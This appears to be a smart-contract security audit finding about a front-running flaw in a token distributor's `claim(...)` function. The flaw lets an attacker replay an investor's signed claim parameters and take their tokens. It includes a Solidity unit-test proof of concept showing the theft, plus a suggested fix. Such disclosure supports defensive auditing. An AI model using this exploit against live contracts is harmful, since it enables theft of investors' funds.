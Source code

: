 Rough Coal Mule

High

# Front-running of `claim(...)` can lead to stealing rewards from investors

### Summary

The `claim(...)` inside the `VVVVCTokenDistributor` contract is vulnerable to front-running on L1s such as Ethereum. When an investor sends a tx to call the `claim(...)`, a malicious user can call the `claim(...)` with the exact same `ClaimParams` struct, passing all the checks and receiving the tokens due to their [transfer to the `msg.sender` and not the `kycAddress`](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L130-L136).

### Root Cause

Insufficient checks inside `claim(...)` for the `msg.sender`/`kycAddress`.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. An investor requests a signature and sends a transaction to claim tokens
2. A malicious user front-runs the call to `claim(...)` and therefore steals the tokens

### Impact

On L1s, investors can get easily front-run and receive no tokens

### PoC

Paste the following unit test inside [VVVVCTokenDistributorUnitTests](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/test/vc/VVVVCTokenDistributor.unit.t.sol):

```solidity
function testFrontRun() public {
    address[] memory thisProjectTokenProxyWallets = new address[](1);
    uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

    thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

    uint256 claimAmount = sampleTokenAmountsToClaim[0];
    thisTokenAmountsToClaim[0] = claimAmount;

    VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
        sampleKycAddress,
        thisProjectTokenProxyWallets,
        thisTokenAmountsToClaim
    );

    address maliciousUser = vm.addr(88888);
    vm.startPrank(maliciousUser);
    TokenDistributorInstance.claim(claimParams);
    vm.stopPrank();

    assertTrue(ProjectTokenInstance.balanceOf(sampleKycAddress) == 0);
    assertTrue(ProjectTokenInstance.balanceOf(maliciousUser) == claimAmount);
}
```

### Mitigation

Either send the tokens to `_params.kycAddress` or add a check: `if (msg.sender != _params.kycAddress) revert();`